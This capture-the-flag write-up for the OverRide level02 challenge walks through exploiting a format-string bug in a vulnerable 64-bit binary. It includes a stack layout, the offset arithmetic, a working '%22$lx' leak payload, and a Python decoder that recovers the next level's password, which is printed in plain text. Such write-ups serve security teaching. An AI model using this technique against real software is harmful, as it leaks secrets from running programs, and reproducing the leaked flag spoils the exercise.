 # level02

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code, we can understand how the memory looks like:
```c
                                    <---- Higher addresses
-0x8(%rbp)     FILE *file;      // 8 bytes
-0xc(%rbp)     size_t ret;      // 4 bytes
-0x70(%rbp)    char name[100];
-0xa0(%rbp)    char token[48];
-0x110(%rbp)   char pass[112];
-0x114(%rbp)   4 bytes to save EDI
-0x120(%rbp)   12 bytes to save RSI <---- RSP here
                                    <---- Lower addresses
```

We know, that the `.pass` file read into local buffer of 48 bytes:
```c
    char token[48];
    ...
    file = fopen("/home/users/level03/.pass", "r");
    ...
    size_t ret = fread(token, 1, 41, file);
    ...
```

The next thing we can notice is vulnerable `printf` call:
```c
    ...
    if (strncmp(token, pass, 41) != 0) {
        printf(name);
        ...
```

Due to SysV calling conventions, first 6 argument are passed via `RDI`, `RSI`, `RDX`, `RCX`, `R8`, `R9` registers, and the excessive argument passed via `stack`.

Each stack argument (address) on 64 bit system takes `8 bytes`.

Looking at the memory scheme above gives us the info about padding from stack pointer to token data:
```
RSP   = -0x120(%rbp) = 0x120
token = -0xa0(%rbp)  = 0xa0

0x120 - 0xa0 = 0x80 = 128 bytes

RSP + 128 bytes padding = token!
```

To make the padding, we need to skip `128 bytes / 8 bytes per stack argument` = 16 arguments.<br>
Do not forget about the first 6 args that passed via registers: `6 + 16 = 22` <br>
Now we can conclude, that `token` data started at 22nd argument.

As the `token` takes in 40 bytes + 1 `\n` or `\0` symbol, we can access it through `40 / 8 bytes` = 5 arguments.

So, arguments 22 - 26 contained the token when program runs.

Our format string is:
```
%22$lx %23$lx %24$lx %25$lx %26$lx
```

Now, let's get the data:
```bash
level02@OverRide:~$ echo '%22$lx %23$lx %24$lx %25$lx %26$lx' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d does not have access!
```

The last thing we need to do is convert the data from little-endian hex to big-endian ASCII text:
```python
print "\x75\x6e\x50\x52\x34\x37\x68\x48"[::-1] + \
      "\x45\x41\x4a\x35\x61\x73\x39\x51"[::-1] + \
      "\x37\x7a\x71\x43\x57\x4e\x67\x58"[::-1] + \
      "\x35\x4a\x35\x68\x6e\x47\x58\x73"[::-1] + \
      "\x48\x33\x67\x50\x66\x4b\x39\x4d"[::-1]
```

Aaand run!
```diff
level02@OverRide:~$ python /tmp/convert.py 
+ Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## References
- [Calling conventions, Sys-V](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI)